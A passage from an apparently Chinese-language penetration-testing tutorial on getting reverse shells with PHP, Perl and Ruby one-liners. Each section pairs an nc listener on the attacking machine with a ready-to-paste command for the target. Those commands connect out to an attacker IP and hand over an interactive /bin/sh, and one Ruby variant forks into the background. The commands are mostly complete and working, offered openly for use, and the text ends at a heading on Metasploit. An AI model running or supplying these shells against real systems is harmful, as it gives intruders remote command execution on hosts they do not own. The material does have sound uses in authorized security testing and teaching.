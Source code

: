 ![img](assets/1668677714209-87de481d-b90b-48fa-aaca-90c49654a21c.png)

### **2. php 脚本反弹shell**

当目标主机上有php环境时，我们可以用php来反弹shell。

**攻击机开启本地监听：**

```python
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```python
php -r '$sock=fsockopen("192.168.1.130",2333);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### **3. Perl 脚本反弹shell**

当目标主机上有perl环境时，我们可以用perl来反弹shell。

**攻击机开启本地监听：**

```python
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```python
perl -e 'use Socket;$i="攻击机ip";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### **4. Ruby脚本反弹shell**

当目标主机上有ruby环境时，我们可以用ruby来反弹shell。

**攻击机开启本地监听：**

```python
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```python
ruby -rsocket -e 'c=TCPSocket.new("攻击机ip","2333");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'或ruby -rsocket -e 'exit if fork;c=TCPSocket.new("47.xxx.xxx.72","2333");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## **0x06 使用Metasploit生成反弹shell用的一句话**
